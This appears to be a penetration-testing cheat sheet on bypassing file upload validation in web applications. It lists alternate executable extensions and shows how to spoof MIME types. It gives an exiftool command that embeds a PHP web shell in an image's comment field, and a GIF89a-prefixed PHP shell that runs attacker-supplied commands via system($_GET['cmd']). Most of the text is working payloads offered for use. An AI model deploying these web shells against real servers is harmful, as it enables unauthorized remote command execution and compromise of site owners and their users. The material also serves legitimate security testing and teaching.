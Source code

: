 # File upload bypass
File upload mechanisms are very common on websites, but sometimes have poor validation. This allows attackers to upload malicious files to the web server, which can then be executed by other users or the server itself. This can also happen in authenticated areas of a website (e.g. installing WordPress plugins)

## File extension
Developers may blacklist specific file extensions and prevent users from uploading files with extensions that are considered dangerous. This can be bypassed by using alternate extensions or even unrelated ones. For example, it might be possible to upload and execute a `.php` file simply by renaming it `file.php.jpg`.

**Alternate extensions**

Type | Extension
---- | ---------
php | phtml, .php, .php3, .php4, .php5, and .inc
asp | asp, .aspx
perl | .pl, .pm, .cgi, .lib
jsp | .jsp, .jspx, .jsw, .jsv, and .jspf
Coldfusion | .cfm, .cfml, .cfc, .dbm


## MIME type
Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.

Normal php MIME type:
```
Content-type: application/x-php
```
Replace with:
```
Content-type: image/jpeg
```

## PHP getimagesize() 
For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as `file.jpg.php`.

You can do this with gimp or exiftools:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
I'm not sure why some tutorials have the php extension first while others have it second. Try both.

## GIF89a; header
GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

```
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```
## Further reading
* [Injecting malicious PHP into an image file](http://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html)
